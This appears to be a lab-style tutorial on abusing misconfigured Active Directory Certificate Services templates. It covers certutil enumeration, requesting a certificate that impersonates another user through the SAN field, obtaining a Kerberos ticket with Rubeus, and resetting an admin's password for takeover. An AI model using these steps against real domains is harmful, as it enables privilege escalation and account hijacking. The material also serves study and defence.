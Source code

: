 Active Directory Certificate Services (AD CS) is Microsoft's PKI solution integrated into Active Directory, used for encrypting files, verifying digital signatures, and user authentication. Unlike public CAs, AD CS can issue certificates internally, which can be used for internal applications without internet access.<br>
The diagram below shows what the flow for certificate requests and generation looks like:

![6abc4f005b619e77d22020817efcd569](https://github.com/user-attachments/assets/3ba2536a-e948-4c2f-8574-ba64bc653edd)<br>



Before we dive deeper into certificate abuse, some terminology:

> PKI - Public Key Infrastructure is a system that manages certificates and public key encryption<br>
> AD CS - Active Directory Certificate Services is Microsoft's PKI implementation which usually runs on domain controllers<br>
> CA - Certificate Authority is a PKI that issues certificates<br>
> Certificate Template - a collection of settings and policies that defines how and when a certificate may be issued by a CA<br>
> CSR - Certificate Signing Request is a message sent to a CA to request a signed certificate<br>
> EKU - Extended/Enhanced Key Usage are object identifiers that define how a generated certificate may be used<br>


**Certificate template enumeration:**

```
certutil -v -template > cert_templates.txt
```

the outpute of this file may be difficult to read but we are looking for some indicators will tell us that one of the templates is vulnerable. THere is 3 of them to generate a malicious certificate.

1) *Parameter 1: Relevant Permissions*

  We are essentially looking for a template where our user has either the ```Allow Enroll``` or ```Allow Full Control``` permission. You will probably never find a certificate where you have the Allow Full Control permission. However, if you do, congratulations! You can misconfigure the template yourself to make it vulnerable! But for now, let's focus on Allow Enroll.<br>
the *cert_templates.txt* contains the *Allow Enroll* permission setting to *Domain Users* 
  ```
 Allow Enroll	LUNAR\Domain Users
```
  
3) *Parameter 2: Client Authentication*
   To ensure a certificate is suitable for Kerberos authentication, check for the ```Client Authentication``` Extended Key Usage (EKU) in the certificate templates. This EKU allows the certificate to be used for client authentication.
   
5) *Parameter 3: Client Specifies SAN*
  ensure the certificate template allows you to specify the Subject Alternative Name (SAN). Look for the ```CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT``` property flag set to 1, indicating you can control the SAN. If a template meets all required conditions, including this SAN capability, you could escalate to Enterprise Admin rights with the right setup.<br>
**Impersonation via SAN:**
    > When a UPN is included in the SAN field of a certificate, it allows the certificate to be associated with a specific user account.<br>
    > If an attacker can obtain a certificate with the UPN of a target account in the SAN field, they can potentially impersonate that user.<br>
    > This certificate can be used in authentication protocols like Kerberos or mutual TLS, where the identity of the user is validated based on the certificate.<br>
   > The system will trust the certificate as if it was issued legitimately to the user, allowing the attacker to access resources and perform actions as if they were the target user.<br>

**UPN** ```Is the username used to log into a domain, formatted as username@domain.com```<br>

**Generating a malicious certificate**

Now that we identified a certificate template that we can exploit, it is time to generate the certificate request.<br>
Here’s the steps for requesting and exporting a certificate using MMC:
```
   1 Open MMC:
        Type mmc in a Run window and press Enter.

   2 Add Certificates Snap-in:
        Click File -> Add/Remove Snap-in...
        Select Certificates and click Add.

  3 Request a New Certificate:
        Expand Certificates -> Personal.
        Right-click on Personal, select All Tasks, then click Request New Certificate...

   4 Proceed with Request:
        Click Next twice to proceed with default CA settings.

   5 Provide Certificate Details:
        Click More information is required to enroll this certificate  (the vulnarable one).

   6 Configure Certificate Properties:
        Change Subject name Type to Common Name and provide the desired certificate name.
        Change Alternative name Type to User principal name (UPN) and provide the UPN of the account you wish to impersonate (e.g., svc.gitlab@lunar.eruca.com).

   7 Enroll the Certificate:
        Click OK to add properties.
        Complete the certificate enrollment.

   8 Export the Certificate:
        Right-click the certificate under Personal -> Certificates.
        Select All Tasks, then click Export...
        Follow the prompts to export, ensuring to export the private key as well.
        Choose PKCS #12 (.pfx) format and set a password for the private key.
        Save the certificate to a file.
```


**User impersonation through a certificate**
<br>

Now we can finally impersonate a user. To perform this, two steps are required:
   > Use the certificate to request a Kerberos ticket granting ticket (TGT).<br>
   > Load the Kerberos TGT into your hacking platform of choice(we will use Rubues).

We will use the following command to request the TGT:
```Rubeus.exe asktgt /user:<UserHavingAdminAccessToImpersonate> /enctype:aes256 /certificate:<path to certificate> /password:<certificate file password> /outfile:<name of file to write TGT to> /domain:<DomainName> /dc:<IP of domain controller>``` <br>

| Option | Description |
|---|---|
| /user | Specifies the user that we will impersonate and must match the UPN for the certificate we generated. |
| /dc | The IP of the domain controller where we are requesting the TGT from. Usually it's best to select a DC that has a CA service running. |

To know that the CA service running or not you can use this command ```certutil -ping <DomainControllerName>```<br>
![Screenshot from 2024-08-31 02-40-05](https://github.com/user-attachments/assets/792f230c-79ce-4917-8303-1fe6c8b61167)


NOw we have an administrative TGT, we can change password of an admin user to take over his account or do ```runas``` command.
```
Rubeus.exe changepw /ticket:<path to ticket file> /new:<new password for user> /dc:<MachineHaveCARunning> /targetuser:<DomainName>\<usernameWeChangeHisPassword>
```
Finally, we could use ```runas /user:<DominName>\<usernameWeChangedHisPassword> cmd.exe```
   
    
